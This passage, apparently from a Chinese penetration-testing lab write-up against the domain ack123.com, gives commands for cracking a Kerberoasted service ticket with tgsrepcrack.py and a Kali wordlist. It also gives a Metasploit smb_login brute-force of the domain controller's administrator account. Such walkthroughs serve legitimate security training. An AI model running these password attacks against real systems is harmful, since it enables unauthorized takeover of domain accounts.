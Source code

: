 将这个票据下载回来，使用kerberroast（https://github.com/nidem/kerberoast）配合kaili的fasttrack.txt字典爆破

```
python3 tgsrepcrack.py ./fasttrack.txt ./2-40a10000-12server-web2\$@mysql~16server-dc1.ack123.com-ACK123.COM.kirbi
```

命令行里面的`$`记得转移

![image-20231122184905582](images/51.png)

### 方法三

因为扫到了445端口是开着的，并且知道了域控的账户为administrator，可以直接用smb爆破，字典选用的是kali的字典

```
use auxiliary/scanner/smb/smb_login
set rhosts 10.10.10.135
set smbuser administrator
set smbdomain ack123.com
set pass_file /usr/share/wordlists/fasttrack.txt
set threads 50
```

![image-20231122182430087](images/52.png)
